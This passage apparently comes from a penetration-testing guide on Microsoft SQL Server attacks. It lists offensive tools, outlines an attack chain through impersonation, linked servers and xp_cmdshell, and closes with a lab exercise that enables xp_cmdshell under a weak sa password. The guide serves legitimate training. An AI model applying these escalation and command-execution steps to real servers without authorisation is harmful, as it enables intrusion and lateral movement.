- [`psexec.py`](../04_remote_execution/psexec.md) and siblings for lateral movement after obtaining the SQL Server service account's credentials.

### External tools

- **`mssql-cli`**. Microsoft's official CLI for SQL Server. No pass the hash support.
- **`sqsh`**. Legacy Linux SQL client. Limited Windows auth support.
- **MSSQLPwner** at `https://github.com/ScorpionesLabs/MSSqlPwner`. Advanced MSSQL exploitation framework with more sophisticated linked server chain handling.
- **PowerUpSQL** at `https://github.com/NetSPI/PowerUpSQL`. PowerShell toolkit for MSSQL attacks. Windows based but extensively documented.

### The canonical MSSQL attack chain



The chain illustrates why MSSQL is a high value target: multiple entry points (Kerberoasting, direct authentication, impersonation), multiple escalation paths (EXECUTE AS, linked servers, xp_cmdshell, UNC coercion), and a service account that is frequently overprivileged at the domain level.


## Further reading

- **`[MS-TDS]`: Tabular Data Stream Protocol.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tds/`. The authoritative TDS specification. Section 2.2 covers the packet structure; section 2.2.6 covers specific message types.
- **Microsoft "SQL Server Authentication Documentation."** `https://learn.microsoft.com/en-us/sql/relational-databases/security/`. Covers SQL auth, Windows auth, Kerberos SPN registration.
- **Microsoft "xp_cmdshell (Transact-SQL)."** `https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql`. The defender's view of xp_cmdshell.
- **Scott Sutherland "MSSQL Privilege Escalation Research"** at `https://www.netspi.com/blog/technical/network-penetration-testing/`. NetSPI has published extensive research on MSSQL attack techniques over the past decade.
- **Hacking Articles "MSSQL for Pentester" series** at `https://www.hackingarticles.in/`. Practical walkthroughs of specific MSSQL attack primitives.
- **Scorpiones Group MSSQLPwner** at `https://github.com/ScorpionesLabs/MSSqlPwner`. Advanced MSSQL exploitation tool with better linked server chain handling than mssqlclient.
- **NetSPI PowerUpSQL** at `https://github.com/NetSPI/PowerUpSQL`. PowerShell MSSQL toolkit with extensive documentation.
- **MITRE ATT&CK T1210** at `https://attack.mitre.org/techniques/T1210/`. Exploitation of Remote Services.
- **MITRE ATT&CK T1078.001** at `https://attack.mitre.org/techniques/T1078/001/`. Default Accounts (often includes `sa` and SQL Server accounts).

If you want to internalize the attack surface, set up a lab SQL Server (the free Developer or Express editions work) with Mixed Mode authentication enabled and a deliberately weak `sa` password. Connect with `mssqlclient.py sa:weakpass@localhost`, enable `xp_cmdshell`, run `whoami`, and observe that it returns the SQL Server service account name. Then configure the service to run as a domain account with some interesting privilege, reconnect, and run `xp_cmdshell` again; observe how the output changes. The exercise makes concrete why SQL Server service account privileges matter so much for the attack outcome. After that, experiment with EXECUTE AS by creating two SQL logins, granting IMPERSONATE from one to the other, and stepping through the enum_impersonate + exec_as_login workflow. The privilege escalation path becomes much more tangible when you see it happen in your own lab versus reading about it abstractly.
